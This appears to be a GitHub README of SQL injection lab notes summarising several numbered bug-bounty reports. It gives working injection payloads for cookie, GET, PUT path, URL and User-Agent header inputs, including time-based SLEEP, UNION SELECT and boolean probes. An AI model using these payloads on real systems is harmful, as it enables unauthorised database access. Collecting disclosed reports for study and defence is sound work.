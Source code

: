 
##  sql-injection labs 

![sql](https://github.com/user-attachments/assets/2a6f7be0-9e42-4dcc-a1f7-c83e7adf9aec)

## report #761304
It seams one of the parameters in the cookies is vulnerable to SQL injection. Below requests has the lang parameter in cookies. If you inject one quote mark like '. You get SQL error with the syntax. By injecting a second you have the error removed.

## report #1042746
 SQLI Injection Time Based on The parameter $_GET['acctid'] is vulnerable. <br>
 GET /changeReplaceOpt.php?&opt=1&acctid=419523%20AND%20SLEEP(15) HTTP/1.1

## report #1044716
SQL Injection in request is used to create sales lead with the data the sales lead id is produced <br>
PUT /consumer/onboarding/saleslead/6b6a8a5a-4a74-46db-b2fe-32a46f927ecc" AND (length(database())) = "11 --+- HTTP/1.1


## report #1046084
SQL Injection Union Based on /commenthistory/$YourSiteId <br>
you can inject by this payload <br>
    /commenthistory/$YourSiteId%20union%20select%201,2,@@VERSION%23

## report #297478
 SQL injection vulnerability in the website that affects the endpoint can be exploited via the User-Agent HTTP header. <br>
 Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87'XOR(if(now()=sysdate(),sleep(5*5),0))OR'


## report #2051931
The server does not perform sanitization on user input, allowing an attacker to inject arbitrary SQL commands into a query. <br>
/api/ten-drives/custom-winners/ten_drive_kz_second_weeks/number_trips/1/999%20or%201=2--
